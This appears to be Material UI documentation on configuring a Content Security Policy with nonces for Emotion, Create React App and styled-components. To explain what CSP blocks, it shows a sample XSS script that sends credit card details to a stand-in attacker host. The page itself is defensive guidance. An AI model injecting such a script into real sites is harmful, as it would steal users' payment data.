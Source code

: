 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material UI (and Emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to Emotion's cache so it can add it to subsequent `<style>`.

:::warning
If you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default.
This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build.
This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
